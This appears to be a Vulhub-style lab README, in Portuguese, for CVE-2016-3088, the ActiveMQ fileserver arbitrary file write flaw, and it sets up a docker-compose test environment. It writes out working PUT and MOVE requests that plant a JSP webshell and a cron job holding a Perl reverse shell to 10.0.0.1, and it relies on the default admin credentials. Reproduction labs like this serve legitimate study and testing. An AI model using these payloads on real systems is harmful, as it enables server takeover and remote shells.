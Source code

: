 # ActiveMQ Arbitrary File Write Vulnerability (CVE-2016-3088)

## Configuração do ambiente

Digite os seguintes comandos para construir e executar o ambiente de vulnerabilidade:

```
docker-compose up -d
```

O ambiente escuta a porta 61616 e a porta 8161, das quais 8161 é a porta do console da web. Essa vulnerabilidade aparece no console da web.

Visite `http://your-ip:8161/` para ver a página web, indicando que o ambiente foi executado com sucesso.

## Breve histórico

O console da web do ActiveMQ é dividido em três aplicativos, admin, API e fileserver, onde o admin é a página do administrador, a API é a interface e o fileserver é a interface para armazenamento de arquivos; admin e API precisam fazer login antes que possam ser usados, o servidor de arquivos não precisa fazer login.

fileserver é uma interface de API RESTful. Podemos ler e gravar arquivos armazenados nele por meio de solicitações HTTP, como GET, PUT e DELETE. A finalidade do design é compensar o defeito de que a operação da fila de mensagens não pode transferir e armazenar arquivos binários, mas depois descobriu que:

1. Sua taxa de uso não é alta
2. As operações de arquivo são propensas a vulnerabilidades

Portanto, o ActiveMQ fechou o aplicativo de servidor de arquivos por padrão em 5.12.x~5.13.x (você pode abri-lo em conf/jetty.xml); após 5.14.0, o aplicativo de servidor de arquivos é completamente removido.

No processo de teste, você deve prestar atenção à versão do ActiveMQ, para evitar esforços inúteis.

## Detalhes da vulnerabilidade

Esta vulnerabilidade aparece no aplicativo Fileserver, o princípio da vulnerabilidade é realmente muito simples, ou seja, o fileserver suporta a gravação de arquivos (mas não analisa o JSP), enquanto suporta o arquivo de movimentação (solicitação de MOVE). Portanto, só precisamos escrever um arquivo e movê-lo para qualquer local usando uma solicitação de movimentação, causando uma vulnerabilidade arbitrária de gravação de arquivo.

Gravar arquivos como cron ou chave ssh

1. Escreva Webshell
2. Grave arquivos como cron ou chave ssh
3. Gravar bibliotecas e arquivos de configuração como jar ou jetty.xml

A vantagem de escrever web shell é conveniente, mas o servidor de arquivos não analisa JSP, admin e API ambos precisam fazer login para acessar, então é um pouco fútil; A vantagem de escrever a chave cron ou ssh é reverter diretamente o Shell, também é conveniente, a desvantagem é que você precisa de privilégios de root; escrever jar, um pequeno problema (requer jar back door), escrever arquivo de configuração XML, este método é mais confiável, mas há um ponto fútil: precisamos saber o caminho absoluto do ActiveMQ.

Vamos falar sobre os vários métodos acima.

### Escrever Webshell

Escreva WebshellComo eu disse anteriormente, o Webshell precisa ser escrito no aplicativo Admin ou API, e ambos os aplicativos precisam estar logados para acessar.

A conta e senha padrão do ActiveMQ é `admin`. Primeiro, visite `http://your-ip:8161/admin/test/systemProperties.jsp` para ver o caminho absoluto do ActiveMQ:

![](02.png)

Em seguida, faça o upload do Webshell:

```
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

Em seguida, mova-o para a pasta API (`/opt/activemq/webapps/api/s.jsp`) no diretório Web:

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

Access Webshell (login required):

![](03.png)

### Escreva crontab, automatize o shell reverso

Este é um método relativamente estável. Primeiro carregue o arquivo de configuração do cron (observe que a nova linha deve ser `\n`, não `\r\n`, caso contrário a execução do crontab falhará):

```
PUT /fileserver/1.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Mova-o para `/etc/cron.d/root`:

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

Se ambas as solicitações acima retornarem 204, a gravação será bem-sucedida. Aguardando o shell reverso:

![](01.png)

Este método requer que o ActiveMQ seja executado como root, caso contrário, ele não poderá gravar no arquivo cron.

### Escreva jetty.xml ou jar

Em teoria, podemos substituir o jetty.xml, remover as restrições de login para admin e API e então escrever um web shell.

Em alguns casos, o proprietário do jetty.xml e do jar é o usuário do container da web, portanto, a taxa de sucesso ao escrever crontab é maior.

Não testado ainda.
